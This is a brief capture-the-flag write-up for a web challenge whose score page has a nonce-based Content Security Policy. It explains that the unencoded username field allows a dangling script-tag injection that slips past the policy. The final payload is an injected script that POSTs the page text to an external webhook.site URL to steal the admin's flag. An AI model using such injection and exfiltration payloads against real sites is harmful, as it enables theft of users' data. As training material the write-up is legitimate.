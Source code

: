 # writeup
## vulnerabilities
```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-4dc4293206eb1026ae18a5a225fc541c'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by test
		<script nonce='4dc4293206eb1026ae18a5a225fc541c'>
function report() {
	fetch('/report/cd1f68caedfec30b', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```

The username field is not encoded but there is a CSP to prevent untrusted js code execution.

To bypass this, we can use payload `<script src="data:, alert(1);"`. The code is executed.

```

<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-109bb5a257129cbe2b005bb69126f3cd'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <script src="data:, alert(1);"
		<script nonce='109bb5a257129cbe2b005bb69126f3cd'>
function report() {
	fetch('/report/dba44ee7e1eca24b', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```

If we use this payload, and report it to the admin using report() function, we can get the flag: (we may need to redefine report function in console)

<script src="data:text/javascript, fetch('https://webhook.site/aa5d5a1d-0995-426c-b73d-a0bca1c5a775', {method: 'POST', mode: 'no-cors', body: document.body.innerText})"